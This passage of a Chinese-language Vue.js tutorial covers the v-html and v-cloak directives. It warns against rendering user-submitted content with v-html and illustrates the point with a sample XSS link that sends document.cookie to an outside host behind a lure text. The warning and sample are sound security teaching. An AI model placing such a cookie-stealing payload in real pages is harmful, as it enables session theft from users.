 ​         (2).一定要在可信的内容上使用v-html，永不要用在用户提交的内容上！

```html
<body>
    <!-- 准备好一个容器-->
    <div id="root">
        <div>你好，{{name}}</div>
        <div v-html="str"></div>
        <div v-html="str2"></div>
    </div>
</body>
<!-- 引入Vue -->
<script type="text/javascript" src="../vue.js"></script>
<script type="text/javascript">
    Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

    new Vue({
        el:'#root',
        data:{
            name:'尚硅谷',
            str:'<h3>你好啊！</h3>',
            str2:'<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>兄弟我找到你想要的资源了，快来！</a>',
        }
    })
</script>
```



### v-cloak

v-cloak指令（没有值）：

​      1.本质是一个特殊属性，`Vue实例创建完毕并接管容器后，会删掉v-cloak属性`

​      2.使用css配合v-cloak可以解决网速慢时页面展示出{{xxx}}的问题。

```html
<style>
    [v-cloak]{
        display:none;
    }
</style>
<body>
    <!-- 准备好一个容器-->
    <div id="root">
        <h2 v-cloak>{{name}}</h2>
    </div>
    <script type="text/javascript" src="http://localhost:8080/resource/5s/vue.js"></script>
</body>

<script type="text/javascript">
    console.log(1)
    Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

    new Vue({
        el:'#root',
        data:{
            name:'尚硅谷'
        }
    })
</script>
```
